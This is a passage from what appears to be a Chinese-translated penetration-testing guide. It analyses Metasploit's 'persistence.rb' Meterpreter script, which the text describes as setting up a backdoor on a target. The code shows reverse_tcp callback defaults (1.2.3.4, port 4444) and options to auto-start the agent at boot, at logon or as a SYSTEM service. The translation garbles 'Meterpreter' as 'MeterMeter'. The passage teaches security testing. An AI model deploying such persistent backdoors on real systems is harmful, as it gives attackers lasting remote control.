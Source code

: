 让我们将讨论扩展到重用代码以实现更快、更高效的渗透测试。

### 代码重用

代码重用是构建自己的脚本的一种有效技术。您可以找到一些现成的函数，例如创建多处理器、设置参数检查、添加有效负载。您可以在代码中直接使用它们，并利用其功能。请记住，了解 MeterMeter 脚本的最佳方法是查看内置脚本。

# 分析现有的 MeterMeter 脚本

现在我们已经学习了如何构建自己的脚本，让我们继续分析执行一些高级任务的现有脚本。一旦能够完全读取现有脚本，就可以根据需要从中实现功能。代码重用是提高代码优化效率的有效技术。

## 怎么做。。。

要查看现有脚本，请浏览至 `pentest/exploits/framework3/scripts/meterpreter`。

您可以在此文件夹中找到所有可用的 MeterMeter 脚本。我们将分析有助于在目标用户上设置后门的 `persistence.rb`脚本。我们在上一章中讨论了此脚本的用法。在这里，我们将了解这个脚本是如何工作的。

## 它是如何工作的。。。

让我们逐一分析代码的每个部分。

```
# Default parameters for payload
rhost = Rex::Socket.source_address("1.2.3.4")
rport = 4444
delay = 5
install = false
autoconn = false
serv = false
altexe = nil
target_dir = nil
payload_type = "windows/meterpreter/reverse_tcp"
script = nil
script_on_target = nil 
```

代码从声明脚本中使用的变量开始。您可以看到一些常见变量，例如我们在整个开发过程中一直使用的 `rhost, rport, payload_type`。

```
@exec_opts = Rex::Parser::Arguments.new(
"-h" => [ false, "This help menu"],
"-r" => [ true, "The IP of the system running Metasploit listening for the connect back"],
"-p" => [ true, "The port on the remote host where Metasploit is listening"],
"-i" => [ true, "The interval in seconds between each connection attempt"],
"-i" => [ true, "The interval in seconds between each connection attempt"],
"-X" => [ false, "Automatically start the agent when the system boots"],
"-U" => [ false, "Automatically start the agent when the User logs on"],
"-S" => [ false, "Automatically start the agent on boot as a service (with SYSTEM privileges)"],
"-A" => [ false, "Automatically start a matching multi/handler to connect to the agent"],
"-L" => [ true, "Location in target host where to write payload to, if none \%TEMP\% will be used."],
"-T" => [ true, "Alternate executable template to use"],
"-P" => [ true, "Payload to use, default is windows/meterpreter/reverse_tcp."]
)
meter_type = client.platform 
```

